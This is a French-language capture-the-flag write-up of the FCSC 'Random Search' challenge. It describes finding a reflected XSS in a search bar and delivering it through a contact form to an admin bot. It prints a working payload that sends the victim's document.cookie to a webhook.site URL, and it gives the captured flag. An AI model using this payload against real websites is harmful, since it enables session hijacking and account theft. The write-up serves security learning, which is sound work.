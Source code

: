 # (Intro) Random Search - 20 points

![image](https://cdn.discordapp.com/attachments/835531052662784010/838814062438776842/1WHy2m.png)

Rien qu'en lisant l'énoncé de ce challenge on peut comprendre qu'on aura donc besoin d'utiliser une XSS permettant la récupération du flag qui est donc égal au cookie de l'administrateur.
On attérit donc sur une page comme celle-ci avec un formulaire de contact et une barre de recherche, dans un premier temps j'ai donc essayé avec un payload basique d'afficher une alerte à l'aide de la barre de recherche.

![image](https://siraak.please-fuck.me/0Bka92.png)

L'alerte est apparue, il y a donc bien une faille XSS dans la barre de recherche. Maintenant la question c'est comment récupérer le cookie de l'administrateur.
On se rend donc ici `http://challenges2.france-cybersecurity-challenge.fr:5001/contact.php` où il y'a la possibilité d'envoyer des urls. J'ai donc refais mon payload afin de récupérer le cookie en envoyant le lien vulnérable à la XSS.

Lien envoyé : `http://challenges2.france-cybersecurity-challenge.fr:5001/index.php?search=<img src=x onerror="this.src='https://webhook.site/48733419-09f7-4fbb-b0a6-6aa1aba6143b/'+document.cookie; this.removeAttribute('onerror');">`, ce qui m'a renvoyé sur le webhook `https://webhook.site/48733419-09f7-4fbb-b0a6-6aa1aba6143b/admin=FCSC%7B4e0451cc88a9a96e7e46947461382008d8c8f4304373b8907964675c27d7c633%7D`

On obtient donc le flag (`FCSC%7B4e0451cc88a9a96e7e46947461382008d8c8f4304373b8907964675c27d7c633%7D`) avec des caractères en héxadécimal vers le début et à la fin, on remplace donc `%7D` par `}` et `%7B` par `{`

# Flag
FCSC{4e0451cc88a9a96e7e46947461382008d8c8f4304373b8907964675c27d7c633}
